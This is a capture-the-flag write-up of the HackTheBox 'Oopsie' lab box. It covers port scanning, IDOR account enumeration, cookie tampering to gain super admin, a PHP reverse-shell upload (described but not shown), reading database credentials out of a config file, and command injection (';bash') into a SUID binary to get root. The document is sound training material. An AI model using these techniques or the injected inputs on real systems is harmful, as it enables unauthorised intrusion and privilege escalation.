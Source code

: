 ```yaml
---
description: Oopsie box from HackTheBox write up.
---
```


# Oopsie

## nmap scan

Look's like only ports 22 and 80 are open:

```bash
┌──(kali㉿kali)-[~/Desktop/HTB/Oopsie]
└─$ sudo nmap <MACHINE_IP> -p- -v
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-31 10:01 EDT
Initiating Ping Scan at 10:01
Scanning <MACHINE_IP> [4 ports]
Completed Ping Scan at 10:01, 0.11s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 10:01
Completed Parallel DNS resolution of 1 host. at 10:01, 0.05s elapsed
Initiating SYN Stealth Scan at 10:01
Scanning <MACHINE_IP> [65535 ports]
Discovered open port 22/tcp on <MACHINE_IP>
Discovered open port 80/tcp on <MACHINE_IP>
Completed SYN Stealth Scan at 10:02, 33.14s elapsed (65535 total ports)
Nmap scan report for <MACHINE_IP>
Host is up (0.055s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 33.59 seconds
           Raw packets sent: 65552 (2.884MB) | Rcvd: 66053 (2.747MB)
```

```bash
┌──(kali㉿kali)-[~/Desktop/HTB/Oopsie]
└─$ sudo nmap <MACHINE_IP> -p 22,80 -sC -sV
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-31 10:06 EDT
Nmap scan report for <MACHINE_IP>
Host is up (0.049s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.41 seconds
```

## Port 80

Here we find the MegaCorp Automotive website that works with `php` files. With manual enumeration the admin email: `admin@megacorp.com` can be discovered and also a login page at `/cdn-cgi/login/`.

According to `gobuster` a `uploads` directory is present. The server has the directory listing disabled sadly so let's note that for later.

Using a previous challenge password we can login with `admin:MEGACORP_4dm1n!!`!. Once inside, the admin pannel looks like there is an upload feature but requires super admin access, the thing is that this page looks vulnerable to `IDOR` vulnerability in `/cdn-cgi/login/admin.php?content=accounts&id=1` because it is possible to specify any `id` we want. With a little Python script let's look for that super admin account (Burb can be used but hey, i wanted to be creative here):

```bash
┌──(kali㉿kali)-[~/Desktop/HTB/Oopsie]
└─$ ./enumerate_users.py
Index: 1 --> <tr><th>Access ID</th><th>Name</th><th>Email</th></tr><tr><td>34322</td><td>admin</td><td>admin@megacorp.com</td></tr>
Index: 2 --> Not exists
Index: 3 --> Not exists
Index: 4 --> <tr><th>Access ID</th><th>Name</th><th>Email</th></tr><tr><td>8832</td><td>john</td><td>john@tafcz.co.uk</td></tr>
Index: 5 --> Not exists
Index: 6 --> Not exists
Index: 7 --> Not exists
Index: 8 --> Not exists
Index: 9 --> Not exists
Index: 10 --> Not exists
Index: 11 --> Not exists
Index: 12 --> Not exists
Index: 13 --> <tr><th>Access ID</th><th>Name</th><th>Email</th></tr><tr><td>57633</td><td>Peter</td><td>peter@qpic.co.uk</td></tr>
Index: 14 --> Not exists
Index: 15 --> Not exists
Index: 16 --> Not exists
Index: 17 --> Not exists
Index: 18 --> Not exists
Index: 19 --> Not exists
Index: 20 --> Not exists
Index: 21 --> Not exists
Index: 22 --> Not exists
Index: 23 --> <tr><th>Access ID</th><th>Name</th><th>Email</th></tr><tr><td>28832</td><td>Rafol</td><td>tom@rafol.co.uk</td></tr>
Index: 24 --> Not exists
Index: 25 --> Not exists
Index: 26 --> Not exists
Index: 27 --> Not exists
Index: 28 --> Not exists
Index: 29 --> Not exists
Index: 30 --> <tr><th>Access ID</th><th>Name</th><th>Email</th></tr><tr><td>86575</td><td>super admin</td><td>superadmin@megacorp.com</td></tr>
Index: 31 --> Not exists
Index: 32 --> Not exists
```

Our super admin account has the id 30. Checking the page cookies i found 2 of them: user (The access key id) and role, because they are just plain text values we can change it to whatever we want. In this case:

```
role=super admin
user=86575
```

Now we can use the upload feature and get a potencial RCE.

### Reverse shell

To get a reverse shell we have to upload a PHP reverse shell to the page and after setting up the listenner we can just execute it in `/uploads/ourFile.php`.


## Privesc

### As www-data in the box

Looking around the box i found the credentials for the database:

```bash
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php 
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

Maybe we can try that credentials to get access to the box robert account:

```bash
www-data@oopsie:/var/www/html/cdn-cgi/login$ su robert
Password: M3g4C0rpUs3r!
robert@oopsie:/var/www/html/cdn-cgi/login$
```

Cool! We have `ssh` access too now.

### As robert in the box

The user flag is in `/home/robert/user.txt`. Looking around, looks like `robert` is part of the `bugtracker` group. This group can execute a SUID binary owned by `root`.

The program basically executes `cat /root/reports/` with a 'bug id' concatenated to the end but it doesn't sanitize the user input so we can abuse it:

```bash
------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ;id
---------------

cat: /root/reports/: Is a directory
uid=0(root) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

As we can see, we executed the `id` command as `root` since this program has the SUID binary set, lets get `root` access:

```bash
------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ;bash
---------------

cat: /root/reports/: Is a directory
root@oopsie:/# 
```

The `root` flag is in `/root/root.txt`.
